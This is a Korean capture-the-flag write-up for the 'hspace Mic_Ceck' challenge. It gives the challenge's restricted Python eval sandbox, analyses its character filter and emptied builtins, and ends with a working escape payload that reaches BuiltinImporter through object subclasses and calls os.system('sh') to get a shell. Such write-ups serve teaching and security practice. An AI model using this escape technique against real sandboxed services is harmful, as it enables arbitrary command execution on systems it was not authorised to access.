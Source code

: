 # hspace - Mic_Ceck

### 문제 코드
```python
import string
import sys

code=''
sys.stdout.write("HSpace Mic-check :)\n")
sys.stdout.write("code: ")
sys.stdout.flush()

while True:
  line = sys.stdin.readline()
  if line.startswith("end"):
    break
  code += line
  
allowed = set(string.ascii_lowercase+'()[]: ._\n'+string.digits)

if allowed | set(code) != allowed:
    sys.stdout.write("nono :(\n")
elif len(code) > 0x80:
    sys.stdout.write("too long :(\n")
else:
    compiled = compile(code,"",'exec')
    eval(compiled, {"__builtins__": {}}, {"__builtins__": {}})
```

### 분석
end가 오기전까지 입력받고
소문자, 숫자, ()[]: .\_\\n 이렇게만 사용가능
페이로드 80바이트 초과면 실패
`__builtins__` 네임스페이스를 빈 딕셔너리로 덮어쓰게 만듬
=컴파일 시 파이썬 내장 모듈(`__builtins__`)을 비우게 만듬
=내장 함수와 클래스를 사용하지 못하게 하는 것
### 문제풀이(한별님 풀이)
subclass list 가져옴
	().__class__.__bases__[0].__subclasses__()

문자열 길이에 제한이 있어,
`<class '_frozen_importlib.BuiltinImporter'>`과 load_module을 이용해 
os.system('sh')을 불러들여 쉘 권한을 먼저 얻고
그 후에 cat flag 등의 작업을 수행

`<class '_frozen_importlib.BuiltinImporter'>`는 파이썬 내장 모듈을 가져오기(import) 위한 내장 모듈 로더(loader) 중 하나
`math`, `sys`, `os`와 같은 모듈들이 내장 모듈에 해당. `BuiltinImporter`는 이러한 내장 모듈을 가져오는 역할을 담당하며, 파이썬 인터프리터가 시작될 때 이미 로드되어 있음

따옴표를 사용할 수 없으므로, 문자열을 직접 __doc__ 의 결과에서 가져옴
```python
print(().__class__.__bases__[0].__subclasses__() [107].__doc__)
"""
Meta path import for built-in modules. All methods are either class or static methods to avoid the need to instantiate the class.
"""
```

os와 sh 문자열을 python의 list slicing 기능을 활용해서 구함

```python
os = [].__doc__[32:49:12] sh = [].__doc__[44:55:10]
```

최종 페이로드
```python
().__class__.__bases__[0].__subclasses__()[107].load_module([].__doc__[32:49:12]).system([].__doc__[44:55:10])

"""
-> <class '_frozen_importlib.BuiltinImporter'>. load_module('os').system("sh")
-> os.system("sh")
"""
```